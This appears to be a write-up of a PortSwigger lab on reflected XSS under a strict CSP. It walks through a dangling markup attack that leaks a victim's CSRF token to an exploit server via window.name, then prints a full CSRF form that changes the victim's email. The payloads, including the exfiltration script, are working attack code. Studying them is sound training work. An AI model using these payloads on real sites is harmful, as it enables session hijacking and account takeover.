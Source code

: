 # Reflected XSS protected by very strict CSP, with dangling markup attack

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-very-strict-csp-with-dangling-markup-attack), you'll learn: Reflected XSS protected by very strict CSP, with dangling markup attack! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★★★★☆☆☆

## Background

This lab using a strict [CSP](https://portswigger.net/web-security/cross-site-scripting/content-security-policy) that blocks outgoing requests to external web sites.

To solve the lab, first perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that bypasses the CSP and exfiltrates a simulated victim user's [CSRF token](https://portswigger.net/web-security/csrf/tokens) using Burp Collaborator. You then need to change the simulated user's email address to `hacker@evil-user.net`.

You must label your vector with the word "Click" in order to induce the simulated user to click it. For example:

```html
<a href="">Click me</a>
```

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102000152.png)

Login as user `wiener`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102000208.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102000217.png)

In here, we can update our email.

Let's try to update it:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102000239.png)

Burp Suite HTTP history:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102000302.png)

When we clicked the `Update email` button, it'll send a POST request to `/my-account/change-email` with parameter `email` and `csrf`.

**We also see CSP (Content Security Policy) is enabled:**
```
Content-Security-Policy: default-src 'self';object-src 'none'; style-src 'self'; script-src 'self'; img-src 'self'; base-uri 'none';
```

However, we can see `object-src` `base-uri` is set to `none`.

**Now, we can try to provide a GET parameter `email` in the URL:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102004121.png)

As you can see, our input is reflected to the `<input>` tag's value.

**In here, we can try to inject some JavaScript code via dangling markup injection:**
```html
my-account?email="><img src=errorpls onerror=alert(document.domain) x="
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102004833.png)

However, the CSP blocked the `alert()` JavaScript function, as the `script-src` is set to `self`.

**Now, since CSP's `base-uri` is set to `none`, we can leverage the `<base>` tag to exfiltrate the CSRF token.**

**According to [HackTricks](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection#bypassing-csp-with-user-interaction), we can do that:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102005823.png)

Let's use the exploit server:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102005019.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102005030.png)

**Payload:**
```html
my-account?email="><a href="https://exploit-0a89002e0459822cc1ae162701c40031.exploit-server.net/exploit">Click me to update email</a><base target='
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102005534.png)

When we click the link, **it'll redirect to our exploit server's exploit payload, with the CSRF token.**

**Let's go to the exploit server do exfiltration:**
```html
<html>
    <head>
        <title>XSS-29</title>
    </head>
    <body>
        <script>
            if(window.name) {
                new Image().src='//exploit-0a89002e0459822cc1ae162701c40031.exploit-server.net/log?'+encodeURIComponent(window.name);
            } else {
                window.location.replace('https://0a81003404868282c10c179800fd00e3.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://exploit-0a89002e0459822cc1ae162701c40031.exploit-server.net/exploit%22%3EClick%20me%20to%20update%20email%3C/a%3E%3Cbase%20target=%27');
            }
        </script>
    </body>
</html>
```

**To test it, we can click "Store" and "View exploit":**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102010757.png)

**When we clicked "View exploit", the exploit HTML code will redirect us to our XSS payload:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102010839.png)

**Then, if the we click on our payload, it'll send the CSRF token to exploit server's access log:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102010936.png)

**URL decoded:**
```html
">
                            <input required type="hidden" name="csrf" value="JqFRqnLcMIG8Qvt6KFvHjqJYV2uBj48t">
                            <button class=
```

**Now, let's click "Deliver exploit to victim" to capture his/her CSRF token:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102011049.png)

**Access log:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102011108.png)

**URL decoded:**
```html
">
                            <input required type="hidden" name="csrf" value="iT656UfZGanewC5gcF46iKOlOzZXorx2">
                            <button class=
```

Nice! **Victim's CSRF token: `iT656UfZGanewC5gcF46iKOlOzZXorx2`**

Armed with above information, **we can perform CSRF attack, which changes victim's email to our controlled email address.**

**Final CSRF attack payload:**
```html
<html>
    <head>
        <title>XSS-29</title>
    </head>
    <body>
        <!-- Construct a form that performs CSRF attack, which changes victim's email address to hacker@evil-user.net-->
        <form name="csrfform" method="post" action="https://0a81003404868282c10c179800fd00e3.web-security-academy.net/my-account/change-email">
            <input type="hidden" id="csrf" name="csrf" value="" />
            <input type="hidden" name="email" value="hacker@evil-user.net" />
        </form>

        <script>
            // If the window.name object exist, then: (This is included in the <base> element in our XSS payload.)
            if(window.name) {
                // Extract victim's CSRF token in window's object name, at string length 80 - 112
                var CSRFToken = window.name.slice(80,112);

                // Update our CSRF form's CSRF value to the victim ones
                document.getElementById('csrf').value = CSRFToken;

                // Automatically submit the form
                document.forms['csrfform'].submit();
            // If no window.name object, then:
            } else {
                // Redirect to our XSS via dangling markup injection payload
                window.location.replace('https://0a81003404868282c10c179800fd00e3.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://exploit-0a89002e0459822cc1ae162701c40031.exploit-server.net/exploit%22%3EClick%20me%20to%20update%20email%3C/a%3E%3Cbase%20target=%27');
            }
        </script>
    </body>
</html>
```

**Finally, we can deliver the exploit to victim:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102014735.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102014747.png)

We did it!

# What we've learned:

1. Reflected XSS protected by very strict CSP, with dangling markup attack